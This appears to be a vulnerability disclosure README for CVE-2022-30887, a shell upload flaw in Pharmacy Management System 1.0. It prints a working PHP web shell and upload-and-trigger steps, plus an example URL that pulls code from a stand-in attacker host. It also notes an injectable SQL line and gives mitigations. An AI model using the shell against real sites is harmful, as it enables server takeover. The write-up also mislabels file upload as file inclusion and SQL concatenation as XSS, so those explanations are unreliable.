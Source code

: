 # CVE-2022-30887
## Pharmacy Management System 1.0 Shell Upload
This application built by [Mayurik](https://mayurik.com/)
Pharmacy management system project in PHP has been developed to improve the accuracy and efficiency of pharmaceutical stores through security and management. In short, it is a product inventory application.

Pharmacy Management System v1.0 was discovered to contain a remote code execution (RCE) vulnerability via the component "/php_action/editProductImage.php". This vulnerability allows attackers to execute arbitrary code via a crafted image file.

## What is a File Inclusion Attack
File Upload vulnerabilities are usually a vulnerability that allows a script to run. It works when we upload the file to the server and enter a command on the uploaded file. File upload vulnerabilities are divided into two types;
- **LFI** (Local File Inclusion)
- **RFI** (Remote File Inclusion)

### LFI (Local File Inclusion)
This vulnerability occurs when the local files on the server include the file retrieved from the user. values received from the user must be sterilized.

Example of **LFI (Local File Inclusion)** ;
```
<?php
if($_REQUEST['s'])
 {  
 system($_REQUEST['s']);
 } 
 else
  phpinfo();?>
```

### RFI (Remote File Inclusion)
This vulnerability works when the attacker upload malware from a remote server.

Example of **RFI (Remote File Inclusion)** ;

"www.victim_site.com/abc.php?test=http://www.attacker_site.com/attack_page"

## Explanation of exploit, PoC

- First, after the login page we will direct to "dashboar.php"
- Secondly, to go to the page where the vulnerability was found, click medicine on the menu after clicking manage medicine you will direct to "product.php" and click edit image under the action tab 

![Product](/images/Screenshot_6.jpg)

- In "editproduct.php" page, click select photo button and upload your shell script.

Example of php shell script;

```
<?php
if($_REQUEST['s'])
 {  
 system($_REQUEST['s']);
 } 
 else
  phpinfo();?>
```

- Click save button and catch the request on **burp suite**

Request;

![Request](/images/Screenshot_1.jpg)

Response;

![Response](/images/Screenshot_2.jpg)

- The file downloaded to "**/assets/myimage/**" folder
- Make request to run your script in url which is **/assets/myimage/shell.php?s=echo+%22MuallimNaci%22**

Request;

![Request](/images/Screenshot_3.jpg)

Response;

![Response](/images/Screenshot_4.jpg)

![Response](/images/Screenshot_8.jpg)

- And **BOOM** 

Also this vulnerability is still active on application.

## Mitigation

-  ensure you only accept characters such as "a-Z0-9" and do not allow ".." or "/" or "%00" (null byte)
- Be ensure "**allow_url_include flag**" must be **off**
- acording to owasp 10 Remediation; "Application can maintain a ***white list of files**, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path"

## Extra
In the same page which is "editproduct.php", I found stored xss

- The code which include vulnerability is;
 ```
$sql = "UPDATE product SET product_name = '$productName'
```

In this code block you can go out of context with double quotes (")

### Request;

![Request](/images/xss/Screenshot_6.jpg)

### Response;

![Response](/images/xss/Screenshot_7.jpg)

![Response](/images/xss/Screenshot_8.jpg)

## Conclusion

I hope can tell how file inclusion vulnerability works, what or which situation trigger this vulnerability and how prevent this attack from attackers. Thanks for your precious time.

